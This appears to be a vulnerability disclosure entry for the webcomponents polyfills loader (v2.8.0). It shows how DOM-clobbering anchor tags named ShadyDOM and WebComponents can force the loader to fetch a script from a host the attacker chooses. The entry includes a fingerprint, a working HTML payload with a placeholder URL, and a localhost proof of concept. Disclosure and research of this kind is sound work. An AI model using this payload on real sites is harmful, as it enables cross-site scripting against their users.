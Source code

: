 ## pollyfill

### Meta

+ Library: polyfills
+ Stars: 1.1K
+ Version: v2.8.0
+ Fingerprint: `window.WebComponents !== 'undefined'`
+ Payload: ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/webcomponents/polyfills

### Vulnerable Code Snippet

```javascript
  var name = 'webcomponents-loader.js';
  // Feature detect which polyfill needs to be imported.
  var polyfills = [];
  if (
    !(
      'attachShadow' in Element.prototype && 'getRootNode' in Element.prototype
    ) ||
    (window.ShadyDOM && window.ShadyDOM.force)
  ) {
    polyfills.push('sd');
  }
```

```javascript
if (polyfills.length) {
  var url;
  var polyfillFile = 'bundles/webcomponents-' + polyfills.join('-') + '.js';

  // Load it from the right place.
  if (window.WebComponents.root) {
    url = window.WebComponents.root + polyfillFile;
    if (
      window.trustedTypes &&
      window.trustedTypes.isScriptURL(window.WebComponents.root)
    ) {
      url = policy.createScriptURL(url);
    }
  } 
  ...
  var newScript = document.createElement('script');
  newScript.src = url;
}
```

## PoC

```html
<!--Library-->
<script src="./webcomponents-loader.js"></script>
<!--Library-->

<!--Payload-->
<a id="ShadyDOM"></a>
<a id="ShadyDOM" name="force"></a>
<a id="WebComponents"></a>
<a id="WebComponents" name="root" href="http://localhost:9999"></a>
<!--Payload-->
```

